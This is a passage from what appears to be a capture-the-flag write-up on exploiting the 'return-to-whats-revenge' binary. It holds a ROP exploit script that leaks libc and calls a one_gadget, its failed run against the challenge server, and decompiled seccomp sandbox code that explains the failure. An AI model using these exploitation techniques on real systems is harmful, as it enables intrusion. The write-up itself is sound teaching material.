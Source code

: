 ```python
libc_leaks = {'puts': extract_first_bytes(r.recvline(),6),
              'gets': extract_first_bytes(r.recvline(),6)}
context.libc = context.libc_database.libc_find(libc_leaks)
one_gadget = context.libc.select_gadget(1)

rop = rop_frame()
rop.call(one_gadget+context.libc.address)
rop.raw(b'\0'*99)
r.sendlineafter('to?\n', rop.chain())
r.interactive()
```
Unfortunately, the exploit code doesn't seem to pass:
```
$ python3.8 example.py
[*] Loaded 14 cached gadgets for 'return-to-whats-revenge'
[+] Opening connection to chal.duc.tf on port 30006: Done
[*] found libc! id: libc6_2.27-3ubuntu1_amd64
[*] 'libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
```
Although the GOT table leak still works fine, the exploit dies when it tries to call the `one_gadget`<sup>1</sup>. The libc version hasn't changed, so why does this happen?

## SECure COMPuting
Going back to the decompiler, I realise that I've missed the function `setup()`, which happens to be called by `.init_array`:
```c
void handler() {
  puts("Time's up");
  exit(0);
}
void setup() {
  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stdin, NULL, _IONBF, 0);
  signal(14, handler);
  sandbox();
}
```
`return-to-whats-revenge` sets up an alarm to kill the process after a bit (presumably to reduce server load), and makes a call to `sandbox()`. Therein lies the complication:
```c
int bpf_resolve_jumps(bpf_labels *labels, sock_filter *filter, size_t count) {
	... // We can ignore this
}
void sandbox() {
	struct sock_filter filter[25] = {
        /* op,   jt,   jf,     k    */
        {0x20, 0x00, 0x00, 0x00000004},
		...
        {0x06, 0x00, 0x00, 0x00000000},
    };
	struct sock_fprog prog = {
		.len = sizeof(filter)/sizeof(*filter),
		.filter = filter,
	};
	bpf_labels lab;
	memset(&lab, 0, sizeof(lab));
```